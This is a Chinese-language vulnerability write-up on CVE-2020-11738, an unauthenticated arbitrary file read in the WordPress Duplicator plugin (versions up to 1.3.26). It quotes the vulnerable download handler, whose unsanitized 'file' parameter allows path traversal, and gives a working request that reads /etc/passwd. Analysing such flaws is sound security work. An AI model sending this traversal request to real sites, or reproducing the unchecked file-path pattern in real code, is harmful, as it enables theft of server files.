 # 

# WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

```
Duplicator <= v1.3.26
```

## 插件名

Duplicator

https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![](./images/202205241332267.png)

这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download

![](./images/202205241332007.png)

```
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![](./images/202205241334750.png)
